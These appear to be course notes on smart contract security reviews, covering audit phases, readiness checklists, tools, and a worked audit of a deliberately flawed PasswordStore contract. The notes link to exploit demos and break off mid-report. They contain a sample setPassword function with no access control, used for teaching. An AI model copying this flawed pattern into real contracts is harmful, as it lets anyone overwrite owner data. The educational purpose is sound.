            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/oracle-manipulation/FlashLoaner.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">FlashLoaner.sol</a>
            </br>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/oracle-manipulation/IFlashLoanReceiver.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">IFlashLoanReceiver.sol</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/23" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Dex 2</a>
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/puppet/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Puppet</a>
            </br>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/puppet-v2/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Puppet V2</a>
            </br>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/puppet-v3/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Puppet V3</a>
            </br>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/the-rewarder/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">The Rewarder</a>
            </br>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/selfie/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Selfie</a>
            </td>
            <td>
            <a href="https://rekt.news/cream-rekt-2/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Cream Finance</a>
            </td>
        </tr>
        <tr>
            <td>Signature Replay</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/signature-replay/SignatureReplay.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            N/A
            </td>
            <td>
            Coming soon...
            </td>
            <td>
            Coming soon...
            </td>
        </tr>
        <tr>
            <td>Opcode Support/EVM Compatibility</td>
            <td>
            Coming Soon...
            </td>
            <td>
            None
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://medium.com/coinmonks/gemstoneido-contract-stuck-with-921-eth-an-analysis-of-why-transfer-does-not-work-on-zksync-era-d5a01807227d" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">zkSync/GEM</a>
            </td>
        </tr>
        <tr>
            <td>Governance Attack</td>
            <td>
            Coming Soon...
            </td>
            <td>
            None
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://rekt.news/tornado-gov-rekt/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Tornado Cash</a>
            </td>
        </tr>
        <tr>
            <td>Stolen Private Keys</td>
            <td>
            Coming Soon...
            </td>
            <td>
            None
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://rekt.news/vulcan-forged-rekt/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Vulcan Forged</a>
            <a href="https://rekt.news/mixin-rekt/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Mixin</a>
            </td>
        </tr>
        <tr>
            <td>MEV</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/MEV/Frontran.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            None
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://blockworks.co/news/curve-suffers-exploit" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Vyper Attack</a>
            </td>
        </tr>
        <tr>
            <td>Invariant Break (Other exploits can cause this)</td>
            <td>
            Doesn't work great in remix
            </td>
            <td>
            N/A
            </td>
            <td>
            N/A
            </td>
            <td>
            <a href="https://www.coinbase.com/blog/euler-compromise-investigation-part-1-the-exploit" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Euler</a>
            </td>
        </tr>
    </tbody>
</table>


# Security Review


## What is a Smart Contract Audit?

Let's start off by stating that the term "smart contract audit" is a bit of a misnomer. As a more appropriate alternative, I am a stout advocate of "security review." I even have a T-shirt to prove my allegiance!

You might be wondering why this change of terms is required. Well, it’s because the term 'audit' might wrongly insinuate some kind of guarantee or even encompass legal implications. A security review, being free of these misconceptions, exudes the essence of what we are actually doing: looking for as many bugs as possible to ensure maximum code security.

> Note: Despite this, many protocols still insist on requesting a "smart contract audit," so it's eminent to know that the terms are interchangeable. When you hear "security review", think "smart contract audit" and vice versa. Protocols are often unaware of these nuances, but you, as a trained security researcher, know better!

### The Three Phases of a Security Review

- [High Level Overview](https://www.youtube.com/watch?v=aOqhQvWhUG0)
- People say "audit" -> security review
- There is no silver bullet to auditing, and they have limitations
- 3 phases of a security review
  - Initial Review
    - 1. Scoping
    - 1. Reconnaissance（侦察）
    - 1. Vulnerability identification
    - 1. Reporting
  - Protocol fixes
    - 1. Fixes issues
    - 1. Retests and adds tests
  - Mitigation Review
    - 1. Reconnaissance
    - 1. Vulnerability identification
    - 1. Reporting

Often a single audit won't be enough, protocols are really entering into a security journey which may include:

- Formal Verification
- Competitive Audits
- Mitigation Reviews
- Bug Bounty Programs

### Reach Out for a Review

The review process begins when a protocol reaches out, be it before or after their code is complete. After they make contact, it's important to determine the cost of a review based on things like:

- Code Complexity/nSLOC
- Scope
- Duration
- Timeline

Lines of Code: Duration

- 100 : 2.5days
- 500 : 1 Week
- 1000 : 1-2 Weeks
- 2500 : 2-3 Weeks
- 5000 : 3-5 Weeks
- 5000+: 5+ weeks

Take this with a lot of salt though, as these timelines vary largely based on circumstance.

With the submission of a `commit hash` and `down payment` by the protocol and start date can be set!

> Note: The `commit hash` is the unique ID of the codebase an auditor will be working with.

### Initial Report

Once the review period is over, the auditors compile an initial report. This report includes all findings, categorized according to severity

- High
- Medium
- Low
- Information/Non-critical
- Gas Efficiencies

High, medium and low findings have their severity determined by the impact and likelihood of an exploit.

Informational/Non-Critical and Gas are findings focused on improving the efficiency of your code, code structure and best practices. These aren't vulnerabilities, but ways to improve your code.

### Mitigation Phase

The protocol's team then has a fixed period to address the vulnerabilities found in the initial audit report. More often than not, they can simply implement the recommendations provided by the auditors.

### Final Report

Upon completion of the mitigation phase, the audit team compiles a final audit report focusing exclusively on the fixes made to address the initial report's issues. Hopefully, this cements a strong relationship between the protocol and the audit team, fostering future collaborations to keep Web3 secure.

### Ensuring a Successful Audit

For an audit to be as successful as possible, you should ensure that there's:

- Good documentation
- A solid test suite
- Clear and readable code
- Modern best practices are followed
- Clear communication channels
- An initial video walkthrough of the code

By considering auditors as an extension of your team, maintaining an open channel of communication, and providing them with the necessary documentation and context, you ensure the audit process is smoother and more accurate, providing auditors valuable context of the codebase.

### Post Audit

Lastly, remember that a smart contract audit is an integral part of a security journey rather than an endpoint. Even after an audit, any subsequent code changes need to be reviewed as the new code is unaudited, regardless of the size of the change.

> Remember: One audit might not be enough. Getting more eyes on your code is only going to increase the chances of catching vulnerabilities before it's too late

### What an audit *isn't*

Going through a security review does not mean that your code is bug free. Security is a continuous process tha tis always evolving.

> "There is no silver bullet in smart contract auditing. But understanding the process, methods, and importance of regular security reviews can significantly enhance your protocol's robustness."


## Embedding Security Audits in Development Lifecycle

The process of developing a smart contract follows a lifecycle too. According to the [OWASP](https://www.owasp.org/index.php/Main_Page) (The Open Web Application Security Project) guide, security isn't just a one-off step but a part of your ongoing smart contract journey. It is about fostering the mindset that security is continuous. The smart contract developer lifecycle entails the following stages:

1. **Plan and Design**
2. **Develop and Test**
3. **Get an Audit**
4. **Deploy**
5. **Monitor and Maintain**

OWASP strongly emphasizes that embedding security considerations into all stages of your Development Lifecycle is what it takes to build a secure decentralized application, not just conducting a one time smart contract “check.” Before deploying your contract, think hard about the security measures in place and ensure to maintain and monitor your code post-deployment.

While a smart contract security audit is an absolute necessity, also ensure to plan for any contingencies post-deployment. The key takeaway here is this: Smart contract security is a crucial part of the smart contract development lifecycle and should be treated with as much care as the development of the smart contract itself.

## Rekt Test

*'Rekt' 在这里是拼写变体，源自英语俚语 'wrecked'（毁灭）*

### Audit Readiness

The concept that once you've had an audit done, you're ready to ship - is wrong. There are two tests that I tell everyone to look at prior to getting a security review one is the [**nacentxyz simple-security-toolkit**](https://github.com/nascentxyz/simple-security-toolkit) and the other is [**The Rekt Test**](https://blog.trailofbits.com/2023/08/14/can-you-pass-the-rekt-test/), by Trail of Bits.

### The Rekt Test

The Rekt Test is highly important as it poses a set of questions to gauge your protocol's preparedness for an audit. This tool forces you to think about security measures from a more proactive angle. Should your protocols fail to answer these questions, the chances are that they're not audit-ready.

The questions touch on several aspects like documentation, security roles, security tools, and protective measures, among others. Here's a curated list:

1. **Do you have all actors roles and privileges documented?**
2. **Do you keep documentation of external services contracts and oracles?**
3. **Do you have a written and tested incident response plan?**
4. **Do you document the best ways to attack your system?**
5. **Do you perform identity verification and background checks on all employees?**
6. **Do you have a team member with security defined in the role?**
7. **Do you require hardware security keys for production systems?**
8. **Does your key management system require multiple humans and physical steps?**
9. **Do you define key invariants for your system and test them on every commit?**
10. **Do you use the best automated tools to discover security issues in your code?**
11. **Do you undergo external audits and maintain a vulnerability disclosure or bug bounty program?**
12. **Have you considered and mitigated avenues for abusing users of your system?**

As developers, you must be able to answer all these queries before you proceed with an audit. If you're dealing with a protocol that fails to answer these questions, it's best to tell them the protocol isn't ready to ship, or arguably audit, until they can.

> "Delegate responsibility to someone on your team for security - Give your project a sense of ownership and a point person to handle any security breaches."

### Nascent Audit Readiness Checklist

[**This**](https://github.com/nascentxyz/simple-security-toolkit) checklist is another effective method to assess if you're ready for an audit. Though it offers different perspectives, it's another tool that helps you determine if your protocols are prepared for audits.

## Tools for Security Reviews

### Static Analysis: Debugging Without Execution

Static analysis represents the next level of defense. This method automatically checks for issues without executing your code, hence the debugging process remains `static`. Slither, 4nalyzer, Mythril, and Aderyn are some prominent tools in the static analysis category.

Throughout this course, we'll work heavily with Slither and Aderyn, you'll become experts at these static analysis options.

### Fuzz Testing: Randomness Meets Tests

Next we have Fuzz testing, which really comes in two flavours, `fuzz testing` and `stateful fuzz testing`.



A few other types of testing we *won't* be covering are `differential test` and `chaos tests`, but in an effort to further you security journey, you always want to be looking for new looks and expanding your knowledge, so you may want to check them out.

### Formal Verification: Mathematical Proofs

Formal verification is a broad term for deploying formal methods to affirm the correctness of hardware or software. Often, these methods involve converting the codebase into mathematical expressions and deploying mathematical proofs to authenticate that the code does or doesn't do something specific.

A popular formal verification approach is symbolic execution. This method converts your Solidity function into math or a set of boolean expressions. Manticore, Certora, Z3 stand tall in this domain.

We will delve deeper into formal verification in later sections.

### AI Tools: Not Quite There Yet

Lastly but importantly, AI tools offer another dimension to imagine code auditing functionalities. However, despite their potential, they have some distance to cover before they provide substantial value for securing a codebase. At present, using AI tools could serve as a sanity check or aid in looking for something quickly, but if a project suggests it has been audited by an AI tool like `ChatGPT`, it is best to be skeptical and question if the project takes security seriously.

There's a great GitHub repo by ZhangZhuoSJTU that illustrates examples of bugs that are detectable by machines and those that aren't. Check it out [**here**](https://github.com/ZhangZhuoSJTU/Web3Bugs).

## What If Your Security Audit Fails?

### Redefining the Role of Auditors

In the eyes of many, the fundamental purpose of a security audit is to identify and rectify the most critical vulnerabilities in a system. However, Tincho encourages us to look beyond this simplistic view.

> Auditors should provide value, regardless of whether or not they spot critical issues.

In other words, an auditor's value doesn't solely rest upon their ability to find vulnerabilities. Instead, their advice should strengthen the overall security protocol and offer pragmatic solutions for future scenarios.

Of course, it goes without saying that the fewer critical vulnerabilities that are overlooked, the better - the safer Ethereum will be. It's naive however to believe that an auditor is solely responsible for when things go wrong.

### Who Owns the Blame?

The notion of finding a scapegoat when a system is exploited is a regressive one.

> A whole chain of events leads to the successful exploitation of a vulnerability.

Attributing the failure of a system to an auditor's incompetency is simplistic and misguided. If a vulnerability was missed, it means it slipped past numerous stages of checks and balances, of which an audit is just one. When a flaw goes unnoticed for as long as four months, there are perhaps lapses in system monitoring and in many other security parameters.

### The Auditor’s Role in the Wake of a Breach

So, what should an auditor do if a protocol they've reviewed ends up compromised? The answer is that a responsible security partner should not abandon their client in the midst of a crisis.

As an auditor, you may be able to help mitigate the damage, restrict the scope of the attack, and possibly identify the hackers. A quality auditor must be there, lending their expertise, during the inevitable chaos that ensues after a breach.

> "If you are to be the trusted security partner of your clients, probably, when they are hacked, you want to be there. You want to be there supporting them." - Tincho


# PasswordStore

## Scoping

### Scoping：Etherscan

As security researchers, you're looking for more than bugs. You're looking for code maturity. If all you have is a codebase on etherscan, if there's no test suite, if there's no deployment suite you should be asking: `how mature is this code?`

> **Remember: Secure protocols not only safeguard the code but also our reputation as researchers. They will likely blame us for a security breach if we've audited a compromised codebase.**

If all they provide is an etherscan link, can you assure the protocol's safety? In these cases, the answer is a resounding **NO**.


If all they've provided you is an Etherscan link - the answer is poorly.

> **If you're offered monetary reward to audit an Etherscan-only codebase, that's a red flag. Say NO. Doing otherwise contradicts our mission to promote secure protocols.**

Do not take clients who have not shown the same commitment to security in their codebase as you would. If you work with clients like those described above, it should be to educate them on how to write good tests and how to prepare their code for a review.


### Scoping: Audit Details

##### Preparing for the Audit: Onboarding Questions

For your convenience, we've compiled a reference of [**Minimal Onboarding Questions**](https://github.com/Cyfrin/security-and-auditing-full-course-s23/blob/main/minimal-onboarding-questions.md). This document will help you extract the minimum information necessary for a successful audit or security review.

We've also included a more [**Extensive Onboarding Questions**](https://github.com/Cyfrin/security-and-auditing-full-course-s23/blob/main/extensive-onboarding-questions.md) document which is more derivative of what we at Cyfrin use for private audits - we'll go over this in more detail later.

Let's go through these questions and understand why each one is important in preparing for our security review.

1. **About the Project:** Knowledge about the project and its business logic is crucial. You need to be aware of what the project is intended to do so as to spot areas where code implementation does not align with the project's purpose. Remember 80% of vulnerabilities are a product of business logic implementation!
2. **Stats:** Information about the size of the codebase, how many lines of code are in scope, and its complexity are incredibly vital. This data will help to estimate the timeline and workload for the audit.
3. **Setup:** We need to ask the protocol how to build and test the project, which frameworks they've used etc.
4. **Review Scope:** Know the **exact commit hash** that the client plans to deploy and the **specific elements of the codebase** it covers. You do not want to spend time auditing code that the client has already modified or doesn't plan to use. The protocol should include the appropriate GitHub URL and explicitly detail which contracts are in scope.
5. **Compatibilities:** Information about the solidity version the client is using, the chains they plan on working with, and the tokens they will be integrating is important, we'll go into why later.
6. **Roles:** This entails understanding the different roles and powers within the system and detailing what the different actors should and shouldn't be able to do.
7. **Known Issues:** Understanding existing vulnerabilities and bugs which are already being considered/fixed. This will allow you to focus on the hidden issues.

##### Scope

For this particular example, the client has provided scope:

```
./src/

└── PasswordStore.sol
```

In this case, a single contract - depending on the maturity of the protocol, you may want to request to include their deployment process, or to provide feedback on their tests - but this is largely a private audit consideration. ==**In competitive audits, the outlined scope is the only code that will be valid.**==

### Scoping: CLOC(*Count Lines of Code*)

**Stats** *Use something like solidity metrics or cloc to get these.*

- nSLOC: XX
- Complexity Score: XX
- Security Review Timeline: Date -> Date

One of the components of the `Stats` section is `nSLOC` or `number of source lines of code`. A very simple tool exists to help us derive this count.

[**CLOC**](https://github.com/AlDanial/cloc) - cloc counts blank lines, comment lines, and physical lines of source code in many programming languages. It's compatible with Solidity, Python, Rust and many more.


#### The Importance of Knowing Your Codebase Size

As you perform more audits and delve further into security research, you'll start to gauge the pace at which you can audit a code base. Understanding that pace enables you to estimate more accurately the time required for future coding or auditing tasks based on the size of the code base.

This is incredibly useful, as with time, you can use your past audit experience and tell the protocol you're working with how long it will take to audit their codebase. Notably, this pace tends to speed up as you do more security reviews. Nevertheless, it's a good starting point.

> *"When auditing 1000 lines of code for the first time, you now have an estimated timeline for subsequent audits or security reviews of 1000 lines codebases."*

Often, competitive audits might have a quicker timeline depending on the auditing platform. Upon having a good grasp of your auditing speed, it may assist in selecting competitive audits that align with your capabilities, or even ones that push you to accelerate your pace.

## The Tincho Auditing Method

To illustrate the Tincho auditing method, we're going to refer to a video where Tincho performs a live auditing of the Ethereum Name Service (ENS).

> "I don't have a super formal auditing process. I will just show you briefly some things that I do..." - Tincho

### First Step

First thing's first - download the code, and **read the documentation**. You need to familiarize yourself with the content and context of the codebase, learn the jargon you can expect to see in the code and become comfortable with what the protocol is expected to do.

**READ THE DOCUMENTATION**

### Tools and Frameworks

Tincho describes a number of tools he uses while performing security reviews, bring the tools you're most familiar and best with.

- **VS Codeium**: a text editor with a privacy focus. It's based on VS Code but removes a lot of the user tracking telemetry
- **Foundry**: As a framework for reviewing codebases Foundry is incredibly fast and allows for quick testing with it's robust test suite
- **CLOC**: A simple command-line utility that helps count lines of code which can give a sense of the complexity of different parts of the codebase.
- **Solidity Metric**: Another tool developed by Consensys that provides useful metrics about your Solidity codebase.

By leveraging `CLOC` and `Solidity Metrics`, a security researcher can organize the codebase by complexity and systemically go through the contracts - marking them each complete as appropriate. This pragmatic approach ensures no stone is left unturned.

It's recommended to start with the smaller and more manageable contracts and build upon them as you go.

There's a point in an audit where your frame of mind should switch to an adversarial one. You should be thinking *"How can I break this..."*


Given even simple functions like above, we should be asking ourselves

- **"Will this work for every type of token?"**
- **"Have they implemented access control modifiers properly?"**

> *USDT is a 'weird ERC20' in that it doesn't return a boolean on transferFrom calls*

### Audit, Review, Audit, Repeat

Keeping a record of your work is crucial in this process.

> Tincho recommends taking notes directly in the code *and* maintaining a separate file for raw notes/ideas.

Remember, there is always a risk of diving too deep into just one part of the code and losing the big picture. So, remember to pop back up and keep an eye on the over-all review of the code base.

Not everything you'll be doing is a manual review. Applying your knowledge of writing tests to verify suspicions is incredibly valuable. Tincho applies a `fuzz test` to his assessment of functions within the ENS codebase.

### Communication

Tincho describes keeping an open line of communication with the client/protocol as `fundamental`. The protocol is going to possess far more contextual understanding of what constitutes intended behavior than you will. Use them as collaborators. **`Trust but validate.`**

> "I would advise to keep the clients at hand. Ask questions, but also be detached enough." - Tincho

### Wrapping it Up-Timeboxing

Sometimes it can feel like there's no end to the approaches you can make to a codebase, no end to the lines of code you can check and verify.

Tincho advocates for time-bounding yourself. Set limits and be as thorough as possible within them.

> "The thing is...I always get the feeling that you can be looking at a system forever." - Tincho

### The Audit Report and Follow Up

The last stage of this whole process is to present an audit report to the client. It should be clear and concise in the detailing of discovered vulnerabilities and provide recommendations on mitigation.

It's our responsibility as security researchers to review the implementation of any mitigations the client employs and to assure that *new bugs* aren't introduced.

### Aftermath of a Missed Vulnerability

There will always be the fear of missing out on some vulnerabilities and instead of worrying about things that slip through the net, aim to bring value beyond just identifying vulnerabilities. Be that collaborative security partner/educator the protocol needs to employ best practices and be prepared holistically.

As an auditor it's important to remember that you do not shoulder the whole blame when exploits happen. You share this responsibility with the client.

> This doesn't give you free reign to suck at your job. People will notice.

A last takeaway from Tincho:

> "Knowing that you’re doing your best in that, knowing that you’re putting your best effort every day, growing your skills, learning grows an intuition and experience in you."

## Reconnaissance

### Recon: Context 

#### First Step: Understanding The Codebase

If we're following `The Tincho` method, our first step is going to be reading the docs and familiarizing ourselves with the codebase. In VS Code, you can click on the `README.MD` file in your workspace and use the command `CTRL + SHIFT + V` to open the preview mode of this document.

> You can also open the preview pane by opening your command pallet and typing `markdown open preview`.

*Quick tip: Check if an extension must be installed for VS Code if it's not working for you.*

Already, we should be thinking about potential attack vectors with the information we've gleaned.

*Is there any way for an unauthorized user to access a stored password?*

Once you've finished reading through the documentation, we can proceed to...

#### Scoping Out The Files（Solidity Metrics）


Applying Tincho's methodology to this process, we can:

1. Scroll down to the section containing the various files and their lengths.
2. Copy this info and paste it onto any platform that allows for easy viewing and comparison— like Google Sheets or Notion.

> Please note that if your codebase contains a solitary file like ours, this step won't be necessary.

Some aspects I'll draw your attention to in this metrics report are the `Inheritance Graph`, `The Call Graph`, and `The Contracts Summary`. It's not super obvious with such a simple protocol, but these are going to provide valuable insight down the line. Familiarize yourself with them now (way at the bottom).


### Recon: Understanding the Code

#### How Tincho Cracked the Code

Tincho, was very pragmatic in his approach, literally going through the code line by line. This method might seem like he was looking for bugs/vulnerabilities in the code. But actually, he was just trying to understand the codebase better. In essence, understanding the functionalities and architecture of the code forms the first and most important part of code inspection.

So let's take it from the top, just like Tincho did…

#### Understanding What the Codebase Is Supposed to Do

Our client's documentation has let us know what the intended functionality of the protocol are. Namely: A user should be able to store and retrieve their password, no one else should be able to see it.

#### Scanning the Code from the Top

After gaining a fundamental understanding, you can start going through the code. You can jump directly to the main functionality. However, to keep things simple, let's just start right from the top and start working our way down.

The open source license seems fine. A compiler version of `0.8.18` may not be an immediate concern, but we do know that this isn't the most recent compiler version. It may be worthwhile to make note of this to come back to.

```
// SPDX-License-Identifier: MIT

pragma solidity 0.8.18; // Q: Is this the correct compiler version?
```

Formatting our in-line comments in a reliable way will allow us to easily come back to these areas later by leveraging search.


#### Taking Notes

As Tincho had advised, creating a separate file to dump thoughts into and compile notes can be a valuable organizational tool. I like to open a file called `.notes.md` and outline things like potential `attack vectors`

> **Pro Tip**: Some security researchers, like 0Kage from the Cyfrin team, even print the source code and use different colour highlighters to visualize the codebase better.

#### Moving Further

Next we see some `NatSpec` comments like this can be considered **extended documentation** and will tell us more about what the protocol is expected to do.



**Hypothetically**, were the naming conventions poor, we might want to make an informational note.

```solidity
contract PasswordStore {

   // I - naming convention could be more clear ie 'error PasswordStore__NotOwner();'
   error NotOwner();

}
```

In the example above we use `// I` for `informational` findings, but use what feels right for you.

> **Pro Tip** - I like to use a package called [**headers**](https://github.com/transmissions11/headers) by `transmissions11`. It allows me to clearly label areas of a repo I'm reviewing.

#### Looking at Functions

Were things less clear, it may be appropriate to leave a note to ask the client.

```
// Q What's this function do?
```

It can't be stressed enough, clarity in our understanding of the codebase and the intended functionalities are a *necessary* part of performing a security review.

## Exploit

### Exploit: Accsess Control

#### The First Vulnerability

The function's `NatSpec` gives us a clear `invariant` - "..only the owner..". This should serve as a clue for what to look for and we should as ourselves...

> *Can anyone **other** than the **owner** call this function?*

At first glance, there doesn't seem to be anything preventing this. I think we've found something! Let's be sure to make notes of our findings as we go.

```solidity
    /*
     * @notice This function allows only the owner to set a new password.
     * @param newPassword The new password to set.
     */
    // @Audit - High - any user can set a password.
    function setPassword(string memory newPassword) external {
        s_password = newPassword;
        emit SetNetPassword();
    }
```

#### The Bug Explained

What we've found is a fairly common vulnerability that protocols overlook. `Access Control` effectively describes a situation where inadequate or inappropriate limitations have been places on a user's ability to perform certain actions.

In our simple example - only the owner of the protocol should be able to call `setPassword()`, but in its current implementation, this function can be called by anyone.

I'll stress again the value of **taking notes throughout this process**. In-line comments, formatted properly are going to make returning to these vulnerabilities later for reassessment much easier and will keep you organized as you go.

```
// @Audit - Any user can set a password - Access Control
```

**Clear and concise notes are key.**

### Exploit: Public Data

Starting, starting as always with the `NatSpec` documentation, we see a couple things to note:

- Only the owner should be able to retrieve the password (*your `access control` bells should be ringing*)
- The function should take the parameter `newPassword`.

We see a problem on the very next line. This function *doesn't take* a parameter. Certainly informational, but let's make a note of it.

```solidity
/*
* @notice This allows only the owner to retrieve the password.
* @param newPassword The new password to set.
*/
function getPassword() external view returns (string memory) {
    if (msg.sender != s_owner) {
    revert PasswordStore__NotOwner();
    }
    return s_password;
}
```


We've uncovered a major flaw in the business logic of this protocol. It's best we make a note of this.

```solidity
address private s_owner;
// @Audit - s_password variable is not actually private! Everything on the blockchain is public, this is not a safe place to store your password.
string private s_password;
```



## Protocol Tests


As security researchers our job is to ultimately do what's necessary to make a protocol more secure. While we've thoroughly examined everything within scope of `PasswordStore` there can be some value in expanding our recon.

Test suites should be an expectation of any protocol serious about security, assuring adequate test coverage will be valuable in a `private audit`.


Wow! Our coverage looks great...right? It's important to note that coverage may be a vanity metric and not truly representative of what's being tested for. If we look closely at the tests included, we can see the a major vulnerability we found (`Access Control`) wasn't tested for at all.

In addition to the above, tests aren't going to catch problems with documentation, or erroneous business logic. ==It's important not to assume things are fine because our framework tells us so.==

## Writing an Amazing Finding(Finding #1)

### Phase #4: Reporting

After the identification phase, we are tasked with communicating our findings to the protocol. This phase is crucial on several levels:

1. We need to convince the protocol that the identified vulnerabilities are valid.
2. We must illustrate how severe/impactful the issue is
3. We should also help the protocol with mitigation strategies.

By effectively communicating this information, we position ourselves as educators, helping the protocol understand **why** these vulnerabilities are issues, **why** they were overlooked, and **how** to fix them to avoid running into the same issues in the future.

**Writing Your First Finding**

Now comes an incredibly exciting part - doing a minimalistic write up of the vulnerabilities you've found.

We've prepared a finding template for you, accessible in the course's [**GitHub Repo**](https://github.com/Cyfrin/security-and-auditing-full-course-s23/blob/main/finding_layout.md).

Open a new file in your project titled `audit-data`, download and copy `finding_layout.md` into this folder.

It should look like this when previewed (`CTRL + SHIFT + V`):

```markdown
#### [S-#] TITLE (Root Cause + Impact)

**Description:**

**Impact:**

**Proof of Concept:**

**Recommended Mitigation:**
```

You can customize this however you like, but this minimalistic template is a great starting point.

> Remember our goals in this report:
>
> - illustrate that the issue is valid
> - make clear the issue's severity and impact
> - offer recommendation for mitigation

### Writing an Amazing Finding: Title

The report so far:


The first thing we need to fill out is our report's title. We want to be concise while still communicating important details of the vulnerability. A good rule of thumb is that your title should include:

> Root Cause + Impact

So, we ask ourselves *what is the root cause of this finding, and what impact does it have?*

For this finding the root cause would be something asking to:

- **Storage variables on-chain are publicly visible**

and the impact would be:

- **anyone can view the stored password**

Let's work this into an appropriate title for our finding (don't worry about `[S-#]`, we'll explain this more later).

```
### [S-#] Storing the password on-chain makes it visible to anyone and no longer private
​
**Description:**
​
**Impact:**
​
**Proof of Concept:**
​
**Recommended Mitigation:**
```

### Writing an Amazing Finding: Description

Our goal here is to describe the vulnerability concisely while clearly illustrating the problem.


```markdown
### [S-#] Storing the password on-chain makes it visible to anyone and no longer private
​
**Description:** All data stored on chain is public and visible to anyone. The `PasswordStore::s_password` variable is intended to be hidden and only accessible by the owner through the `PasswordStore::getPassword` function.
​
I show one such method of reading any data off chain below.
​
**Impact:** Anyone is able to read the private password, severely breaking the functionality of the protocol.
​
**Proof of Concept:**
​
**Recommended Mitigation:**
```

### Writing an Amazing Finding: Proof of Code

Foundry allows us to check the storage of a deployed contract with a very simple `cast` command. For this we'll need to recall to which storage slot the `s_password` variable is assigned.


~~~markdown
### [S-#] Storing the password on-chain makes it visible to anyone and no longer private 

**Description:** All data stored on chain is public and visible to anyone. The `PasswordStore::s_password` variable is intended to be hidden and only accessible by the owner through the `PasswordStore::getPassword` function.

I show one such method of reading any data off chain below.

**Impact:** Anyone is able to read the private password, severely breaking the functionality of the protocol.

**Proof of Concept:** The below test case shows how anyone could read the password directly from the blockchain. 

We use foundry's cast tool to read directly from the storage of the contract, without being the owner.

1.Create a locally running chain

